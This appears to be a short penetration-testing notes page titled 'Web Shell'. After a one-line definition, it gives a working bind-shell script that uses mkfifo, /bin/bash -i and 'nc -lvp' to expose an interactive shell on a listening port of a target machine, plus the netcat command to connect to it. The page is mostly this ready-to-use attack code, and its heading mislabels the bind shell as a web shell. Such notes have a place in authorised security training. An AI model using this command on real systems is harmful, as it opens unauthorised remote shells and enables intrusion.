 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Web Shell

Is a technique where we upload a script on the language a website is based on, that lets the app to accept commands through HTTP request parameters, and pass them to the internal system of the server to be executed by the internal shell.

## <mark style="color:orange;">Basic script</mark>

* &#x20;Use and script that establishes a listening port on the target machine

{% code title="BindShell.sh" overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp $port >/tmp/f
```
{% endcode %}

* Connect to the listening port we have set using Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}
